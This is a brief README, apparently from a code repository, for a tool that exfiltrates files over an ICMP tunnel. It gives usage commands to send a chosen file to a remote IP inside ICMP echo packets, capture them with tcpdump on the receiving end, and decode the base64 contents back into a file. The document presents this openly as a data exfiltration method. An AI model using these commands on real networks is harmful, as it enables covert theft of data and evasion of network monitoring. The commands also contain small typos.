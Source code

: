# Data Ex-filteration over ICMP Tunnel

### Usage:

at the client end:

```python icmp_transmitter.py  "input_file_to_be_sent" "IP_address_to_be_sent"```

at the server end:
 
run tcpdump. Use the following command :

```sudo tcpdump -i eth0 icmp and icmp[icmptype]=icmp-echo -XX -vvv -w output.txt```
tcpdump -i  eth0  host xx.xx.xx.xx  and icmp and icmp[icmptype]=icmp-echo -XX -vvv -w  output.txt

Use icmptofile.py to decode the base64 data to respective format

```python icmptofile.py output,txt"```

